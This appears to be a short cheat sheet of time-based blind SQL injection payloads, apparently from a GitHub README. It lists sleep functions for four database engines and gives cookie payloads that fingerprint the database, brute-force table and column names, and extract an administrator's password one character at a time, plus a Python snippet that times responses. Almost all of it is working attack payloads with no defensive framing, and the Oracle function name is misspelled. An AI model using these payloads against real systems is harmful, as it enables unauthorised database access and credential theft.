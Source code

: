 Different time delay techniques for different databases
```
ORACLE - dbms_pipe.recieve_message(('a'),5)
PostgreSQL - pg_sleep(5)
Microsoft - WAITFOR DELAY '0:0:5'
MySQL - sleep(5)
```

Checking the type of database 
```
Cookie : TrackingID = abcdef';(SELECT '' from information_schema.tables LIMIT 1)-- -

Cookie : TrackingID = abcdef'%3B(sleep(5))-- -

Cookie : TrackingID = abcdef'%3B(pg_sleep(5))-- -
```

Bruteforcing tables
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' from $table_name$) -- -
```

Bruteforcing columns
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN SUBSTRING(CONCAT('a',$username$),1,1)='a' THEN pg_sleep(5) ELSE '' from table_name) -- -
```

Bruteforcing data 
```
Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE '' from table_name where username='$administrator$') -- -

Cookie : TrackingID = abcdef'%3B(SELECT CASE WHEN SUBSTRING(password,1,1)='$a$' THEN pg_sleep(5) ELSE '' from users where username='administrator') -- -

```

Python code to test the response delay
```python
import requests
r = requests.get(url)
print(r.elapsed.total_seconds())
```